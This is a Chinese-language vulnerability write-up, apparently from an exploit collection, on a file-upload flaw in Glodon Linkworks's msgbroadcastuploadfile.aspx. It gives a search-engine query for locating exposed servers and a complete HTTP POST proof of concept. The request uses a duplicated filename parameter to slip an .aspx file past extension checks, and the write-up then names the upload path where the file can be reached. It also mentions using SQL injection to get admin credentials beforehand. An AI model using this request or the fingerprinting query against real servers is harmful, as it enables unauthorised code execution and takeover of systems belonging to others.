



# 广联达 Linkworks msgbroadcastuploadfile.aspx 后台文件上传漏洞

## 漏洞描述

广联达 Linkworks msgbroadcastuploadfile.aspx 存在后台文件上传漏洞，攻击者通过SQL注入获取管理员信息后，可以登陆发送请求包获取服务器权限

## 漏洞影响

广联达 Linkworks

## 网络测绘

```
web.body="/Services/Identification/"
```

## 漏洞复现

登陆页面


GTP.IM.Services.Group.WebSite.GTP.IM.Services.Group 存在文件上传，上传后在当前目录 Upload下



通过SQL注入获取管理员账号密码后登陆后台上传文件,验证POC

```
POST /gtp/im/services/group/msgbroadcastuploadfile.aspx HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Cookie: 0_styleName=styleA

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; filename="1.aspx";filename="1.jpg"
Content-Type: application/text

Test

------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```



```
/GTP/IM/Services/Group/Upload/xxx-xxx-test.aspx
```

